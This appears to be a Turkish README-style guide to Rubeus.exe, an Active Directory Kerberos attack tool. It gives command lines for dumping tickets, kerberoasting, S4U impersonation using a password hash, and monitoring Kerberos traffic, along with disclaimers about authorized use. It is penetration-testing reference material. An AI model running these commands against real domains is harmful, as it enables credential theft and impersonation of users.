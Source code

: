 # Rubeus.exe Kullanım Rehberi

## Rubeus.exe Nedir?

**Rubeus.exe**, Kerberos kimlik doğrulama protokolünü hedef alan, çeşitli saldırılar ve testler gerçekleştirmek için kullanılan bir Windows aracıdır. Bu araç, özellikle Active Directory ortamlarında Kerberos biletlerini analiz etmek, manipüle etmek ve istismar etmek için kullanılır. **Rubeus**, güvenlik uzmanlarına Kerberos protokolü ile ilgili zafiyetleri keşfetme imkanı sunar.

> **Önemli Not:** Rubeus.exe yalnızca yetkili test ortamlarında ve etik kullanım amaçlı çalıştırılmalıdır. Yetkisiz kullanım yasa dışıdır.

---

## Ana Özellikleri

1. **Kerberos Bilet Yönetimi:**
   - Kerberos biletlerini yakalama, listeleme, yenileme ve manipüle etme.
2. **Yetki Yükseltme:**
   - Kerberos TGS (Ticket Granting Service) biletlerini kullanarak yetki yükseltme işlemleri.
3. **Zafiyet Analizi:**
   - Active Directory ortamlarında Kerberos protokolü ile ilgili yapılandırma hatalarını analiz eder.

---

## İndirme ve Çalıştırma

Rubeus.exe genellikle GitHub üzerinden indirilebilir:

- [https://github.com/GhostPack/Rubeus](https://github.com/GhostPack/Rubeus)

### Çalıştırma Adımları

1. **Dosyayı Edinin:**
   Rubeus.exe dosyasını sisteminize indirin ve hedef bir dizine kaydedin.

2. **CMD veya PowerShell ile Çalıştırma:**
   ```cmd
   Rubeus.exe <parametreler>
   ```

---

## Kullanım Parametreleri

### 1. **`dump`**
- Mevcut sistemdeki Kerberos biletlerini döker.

  **Kullanım:**
  ```cmd
  Rubeus.exe dump
  ```

### 2. **`kerberoast`**
- Kerberoasting saldırısı başlatır ve Kerberos servis hesaplarının TGS biletlerini çıkarır.

  **Kullanım:**
  ```cmd
  Rubeus.exe kerberoast
  ```

### 3. **`s4u`**
- Service for User (S4U) işlevini kullanarak belirli bir kullanıcı için bilet alır.

  **Kullanım:**
  ```cmd
  Rubeus.exe s4u /user:TARGET_USER /rc4:HASH /impersonateuser:IMPERSONATE_USER
  ```

### 4. **`monitor`**
- Kerberos trafiğini izler ve yakalar.

  **Kullanım:**
  ```cmd
  Rubeus.exe monitor /interval:10
  ```

### 5. **`help`**
- Kullanılabilir tüm komutları ve parametreleri listeler.

  **Kullanım:**
  ```cmd
  Rubeus.exe help
  ```

---

## Örnek Kullanım Senaryoları

### 1. Kerberos Biletlerini Listeleme
```cmd
Rubeus.exe dump
```

### 2. Kerberoasting Saldırısı Gerçekleştirme
```cmd
Rubeus.exe kerberoast
```

### 3. Belirli Bir Kullanıcı İçin Bilet Alma
```cmd
Rubeus.exe s4u /user:TARGET_USER /rc4:HASH /impersonateuser:IMPERSONATE_USER
```

### 4. Kerberos Trafiğini İzleme
```cmd
Rubeus.exe monitor /interval:10
```

### 5. Yardım Mesajını Görüntüleme
```cmd
Rubeus.exe help
```

---

## Güvenlik ve Önlemler

- **Yetkili Kullanıcılar:** Rubeus.exe yalnızca güvenlik uzmanları ve yetkili sistem yöneticileri tarafından kullanılmalıdır.
- **Test Ortamı:** Araç üretim ortamlarında çalıştırılmadan önce test ortamında denenmelidir.
- **Loglama:** Çalıştırılan komutlar sistem loglarına kaydedilebilir. Yasalara uygun hareket edilmelidir.

---

## Kaynaklar

- [Rubeus GitHub Sayfası](https://github.com/GhostPack/Rubeus)
- [Kerberos Protokolü Hakkında](https://learn.microsoft.com/en-us/windows-server/security/kerberos/)

---

> **Uyarı:** Bu rehber yalnızca eğitim ve araştırma amaçlıdır. Yetkisiz kullanımlar yasa dışıdır.
